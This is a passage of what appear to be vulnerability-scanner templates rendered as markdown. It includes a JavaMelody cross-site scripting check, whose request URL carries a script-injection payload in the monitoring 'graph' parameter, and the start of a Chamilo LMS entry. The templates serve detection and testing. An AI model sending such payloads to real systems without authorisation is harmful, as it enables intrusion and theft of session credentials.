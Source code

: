 **Type - status**

- status
  1. 200

---

# JavaMelody - Cross-Site Scripting

## Description

- JavaMelody contains a cross-site scripting vulnerability via the monitoring parameter. An attacker can execute arbitrary script in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,javamelody

## Requests

- Method - GET

### URL

- {{BaseURL}}/monitoring?part=graph&graph=usedMemory%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Chamilo LMS 1.11.14 Cross-Site Scripting

## Description

- Chamilo LMS 1.11.14 is vulnerable to cross-site scripting.
- severity - high
- tags - xss,chamilo
